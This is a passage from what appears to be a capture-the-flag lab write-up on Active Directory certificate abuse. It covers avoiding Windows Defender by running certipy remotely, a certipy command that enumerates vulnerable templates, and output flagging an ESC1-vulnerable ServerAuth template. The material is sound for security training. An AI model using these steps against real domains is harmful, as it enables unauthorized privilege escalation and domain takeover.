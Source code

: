 The group `Certificate Service DCOM Access`, to which the user `SUSANNA_MCKNIGHT` has access is a strong indicator that you need to exploit a certificate vulnerability to root this machine.

To enumerate any certificates you normally can use `Certify.exe`, which you can simply load on the machine and then you can enumerate the certificates. In this case this is not possible because the server is running Windows Defender, which will remove the file immediately after it is uploaded. To overcome this issue there is a tool called `certipy` which can be used to enumerate and exploit the server from your own, so no need for an executable.

For exploiting a weak managed certificate you first need to find one, `certipy` has a handy built in function for scanning for vulnerable certs.

```terminal
certipy find -u 'SUSANNA_MCKNIGHT' -p "************" -dc-ip 10.10.214.56 -vulnerable -stdout
```

Executing the command will yield three certificates as a result. The first one is root Certificate of the Public Key Infrastructure (PKI). So this is not useful. The third certificate is disabled, so also not useful. Finally the second certificate looks promising:

```
    Template Name                       : ServerAuth
    Display Name                        : ServerAuth
    Certificate Authorities             : thm-LABYRINTH-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Domain Computers
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Authenticated Users
      Object Control Permissions
        Owner                           : THM.LOCAL\Administrator
        Write Owner Principals          : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Administrator
        Write Dacl Principals           : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Administrator
        Write Property Principals       : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Administrator
    [!] Vulnerabilities
      ESC1                              : 'THM.LOCAL\\Domain Computers' and 'THM.LOCAL\\Authenticated Users' can enroll, enrollee supplies subject and template allows client authentication
  1
```
